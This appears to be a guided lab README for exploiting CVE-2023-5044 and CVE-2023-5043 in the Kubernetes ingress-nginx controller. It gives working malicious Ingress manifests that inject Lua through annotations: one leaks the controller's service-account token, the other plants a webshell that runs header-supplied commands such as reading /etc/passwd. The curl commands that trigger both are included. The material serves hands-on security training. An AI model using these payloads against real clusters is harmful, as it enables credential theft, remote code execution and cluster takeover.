 # Abusing CVE-2023-5044 and CVE-2023-5043

This scenario prepare the environment so you can exploit CVE-2023-5044 and CVE-2023-5043. These exploits abuse some of the Kubernetes Nginx ingress controller features to inject code using annotations, these vulnerabilities were fixed in the 1.9.0 version.

The ingress controller is installed as a NodePort service (To avoid the need of an external load balancer), its ports are:
- 30080 for HTTP
- 30443 for HTTPS

A pod you can SSH into is provided, the service account used by the pod has limited privileges but are enough to exploit the vulnerabilities. The idea is to emulate a scenario where an application/user that manage the Ingress objects is compromised:

```bash
ssh pwned@10.10.20.2 -p 30023
```

The service account has only **read access to services and pods but full access to ingress objects**.

Once connected, prepare the `kubectl` binary so you can make request to the Kubernetes API in an easy way:

```bash
curl -LO "https://dl.k8s.io/release/$(curl -L -s https://dl.k8s.io/release/stable.txt)/bin/linux/amd64/kubectl"
chmod +x kubectl
```

If you did everything right, this command should return all the pods in the cluster:

```bash
./kubectl --token $(cat /var/run/secrets/kubernetes.io/serviceaccount/token) --server https://10.10.20.2:6443 --insecure-skip-tls-verify=true get pods -A
```

From here, you can continue reading for a guided exploitation or research for yourself. At the end of this document you can find some really interesting references to understand the vulnerabilities.

# CVE-2023-5044

The provided PoC will leak the Nginx controller service account token instead of provide a webshell. This token has access to a lot of resources including secrets so in most cases you may abuse this to escalate and get full access to the cluster.

First deploy this malicious Ingress copying it to a file and using:

```bash
./kubectl --token $(cat /var/run/secrets/kubernetes.io/serviceaccount/token) --server https://10.10.20.2:6443 --insecure-skip-tls-verify=true apply -f ingress.yaml
```

```yaml
apiVersion: networking.k8s.io/v1
kind: Ingress
metadata:
  name: cve-2023-5044
  namespace: cve-2023-5044-and-cve-2023-5043
  annotations:
    nginx.ingress.kubernetes.io/rewrite-target: /$2
    nginx.ingress.kubernetes.io/permanent-redirect: https://www.google.com;}location ~* "^/exploit(/|$)(.*)" {content_by_lua 'ngx.say(io.popen("cat /var/run/secrets/kubernetes.io/serviceaccount/token"):read("*a"))';}location ~* "^/exploit(/|$)(.*)" { content_by_lua 'os.execute("touch /you")'
spec:
  rules:
  - http:
      paths:
      - pathType: Prefix
        path: /foo(/|$)(.*)
        backend:
          service:
            name: foo-service
            port:
              number: 5678
      - pathType: Prefix
        path: /test(/|$)(.*)
        backend:
          service:
            name: test-service
            port:
              number: 5678
```

Once the above is done, execute this to get the Nginx controller service account token:

```bash
curl http://10.10.20.2:30080/exploit
```

# CVE-2023-5043:

In order for this to work the `allow-snippet-annotations` option needs to be set to `true`. This option was defaulted to `true` until v1.9.0, what means that previous versions are mostly vulnerable if the administrator did not mitigated the problem and later versions could be vulnerable if the `allow-snippet-annotations` was re-enabled for some reason. Also, if you have enough privileges to play with the Nginx controller ConfigMap, you can enable the `allow-snippet-annotations` option yourself!

The exploitation of this vulnerability is pretty similar to CVE-2023-5044. In this case, the PoC provided will give you a webshell. Deploy this malicious Ingress copying it to a file and using:

```bash
./kubectl --token $(cat /var/run/secrets/kubernetes.io/serviceaccount/token) --server https://10.10.20.2:6443 --insecure-skip-tls-verify=true apply -f ingress.yaml
```

```yaml
apiVersion: networking.k8s.io/v1
kind: Ingress
metadata:
  name: cve-2023-5043
  namespace: cve-2023-5044-and-cve-2023-5043
  annotations:
    nginx.ingress.kubernetes.io/configuration-snippet: |
      more_set_headers "pwned"
            proxy_pass http://upstream_balancer;
                                proxy_redirect                          off;
        }
        location /pwned/ { content_by_lua_block { local rsfile = io.popen(ngx.req.get_headers()["cmd"]);local rschar = rsfile:read("*all");ngx.say(rschar); } } location /fs/{
spec:
  rules:
  - host: pwned.me
    http:
      paths:
      - path: /
        pathType: Prefix
        backend:
          service:
            name: test-service
            port:
              number: 5678
```

Now you can start executing commands in the Nginx controller pod. The example command will return the contents of the `/etc/passwd` file:

```bash
curl -v -H 'Host: pwned.me' -H "cmd: cat /etc/passwd" http://10.10.20.2:30080/pwned/
```

## References

- https://kubernetes.io/docs/concepts/services-networking/ingress/
- https://www.covertswarm.com/post/exploiting-cve-2023-5044-and-cve-2023-5043-to-overtake-a-kubernetes-cluster
- https://kubernetes.github.io/ingress-nginx/user-guide/nginx-configuration/configmap/#allow-snippet-annotations
- https://github.com/r0binak/CVE-2023-5044
- https://github.com/KubernetesBachelor/CVE-2023-5044
- https://github.com/r0binak/CVE-2023-5043
- https://www.armosec.io/blog/cve-2023-5043-nginx-ingress/

